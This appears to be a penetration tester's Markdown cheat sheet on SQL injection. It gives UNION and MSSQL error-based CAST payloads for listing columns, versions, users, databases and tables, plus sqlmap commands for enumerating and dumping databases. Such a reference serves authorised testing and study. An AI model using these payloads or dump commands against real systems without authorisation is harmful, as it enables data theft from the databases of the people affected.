 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
    * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
          * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
      * `--technique=<U>`
      * `--banner`
      * `--dbms` - database type
      * `--dbs` - list databases
      * `-D <database>`, `-T <tables>`, `--columns`
      * `--dump`
      * `--string` - always present in True output
      * `--not-string` - always present in False output
      * `--prefix <value>`, `--suffix <value>`
      * `--keep-alive` - persistent connection to target

  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet


